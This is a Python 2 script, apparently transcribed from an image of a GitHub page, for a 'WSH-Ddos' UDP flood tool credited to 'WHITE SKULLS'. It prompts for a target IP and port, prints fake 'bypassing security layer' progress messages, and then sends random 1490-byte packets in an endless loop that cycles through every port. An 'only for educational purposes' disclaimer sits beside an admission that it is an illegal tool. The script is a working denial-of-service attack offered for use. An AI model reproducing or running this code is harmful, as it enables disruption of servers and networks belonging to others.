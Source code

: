 print ("\033[92m")
import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet WSH-Ddos")
print
print "Coded By : WHITE SKULLS"
print "Author   : WHITE SKULLS"
print "Github   : githu.com/whiteskullshacker"
print "Note- This Tool An Illegal Tool & It's Only For Educational Purpose.. Use It At Your Own Risk,We aren't responsible for your actions"
print
ip = raw_input("IP Target : ")
port = input("Port       : ")
os.system("clear")
os.system("figlet WSH-Ddos")
print("Team : WHITESKULLS")
print ("\033[92m")
print "________________TRYING TO REACH THE SERVER_____________________"
time.sleep(5)
print "_________________ESTABLISHING CONNECTION_______________________"
time.sleep(5)
print "_________0100100 BYPASSING SECURITY LAYER 001010_______________"
time.sleep(5)
print "_________________CONNECTION ESTABLISHED________________________"
time.sleep(5)
print "    DDOS ATTACK STARTED. NOTE: ONLY FOR EDUCATIONAL PURPOSES"
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1
